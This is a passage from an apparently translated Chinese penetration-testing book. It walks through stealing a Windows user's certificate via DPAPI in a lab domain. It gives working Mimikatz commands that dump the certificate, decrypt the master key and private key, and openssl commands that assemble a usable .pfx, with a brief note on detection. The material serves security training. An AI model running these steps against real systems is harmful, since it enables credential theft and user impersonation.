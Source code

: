 图 8.2 – khal.drogo 的证书导出成功

检测此攻击的唯一方法是当需要 CNG 补丁修复并且对**lsass.exe**的访问正在被监控时。

## THEFT2 – 通过 DPAPI 盗取用户证书

DPAPI 是 Windows 组件，允许应用程序存储敏感数据。此数据由主密钥保护，主密钥通过应用 PBKDF2 函数从用户的密码哈希、SID 和盐值推导而来。证书存储在 **HKEY_CURRENT_USER\SOFTWARE\Microsoft\SystemCertificates** 注册表键或 **%APPDATA%\Microsoft\systemcertificates\my\certificates** 文件夹中。关联的私钥存储在 **%APPDATA%\Microsoft\Crypto\RSA\User SID**（对于 CAPI 密钥）和 **%APPDATA%\Microsoft\Crypto\keys**（对于 CNG 密钥）中。小提醒：即使启用隐藏文件，也无法在文件夹中看到密钥。要查看这些文件夹的内容，请使用 **dir** /**a:s** 命令行。要解密证书的私钥，我们需要相应的主密钥。有几种方法可以获取主密钥，但其中三种方法需要提升的权限：

+   从域控制器备份密钥 (**lsadump::backupkeys**)

+   DPAPI 缓存的主密钥 (**sekurlsa::dpapi**)

+   **DPAPI_SYSTEM** 密钥 (**lsadump::secrets**)

+   通过提供用户的哈希值或密码

以下 Mimikatz 命令将允许您以 **.der** 格式转储证书，找出主密钥的 **guidMasterKey** 值，解密主密钥，最后解密证书的私钥：

```
crypto::system /file:C:\users\khal.drogo\appdata\roaming\microsoft\systemcertificates\my\certificates\C7889A4CBF0B4F10CA29347D81327DC6CED9ED95 /export
dpapi::capi /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2801885930-3847104905-347266793-1112\d2d039eb9fe8cf2dd19f701b6f890220_9d1ba1ca-81ea-41ad-bc71-414af8de5013
dpapi::masterkey /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Protect\S-1-5-21-2801885930-3847104905-347266793-1112\6e1524df-7d72-4b90-a95f-72341d79449f /rpc
dpapi::capi /in:C:\Users\khal.drogo\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2801885930-3847104905-347266793-1112\d2d039eb9fe8cf2dd19f701b6f890220_9d1ba1ca-81ea-41ad-bc71-414af8de5013 /masterkey:5401985c1aa5a8ae1f25a9f08beaa53f4b6ad98e
```

在 Linux 机器上借助 **openssl**，我们可以构建有效的 **.****pfx** 文件：

```
openssl x509 -inform DER -outform PEM -in C7889A4CBF0B4F10CA29347D81327DC6CED9ED95.der -out public.pem
openssl rsa -inform PVK -outform PEM -in dpapi_exchange_capi_0_te-User-d700e753-1b10-45c7-aa92-b8a8ffe7493d.keyx.rsa.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:12345 -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out drogo_cert.pfx
```

前述命令的结果如下图所示：

![图 8.3 – 成功为 khal.drogo 构建 .pfx 证书](img/B18964_08_03.jpg)

图 8.3 – 成功为 khal.drogo 构建 .pfx 证书
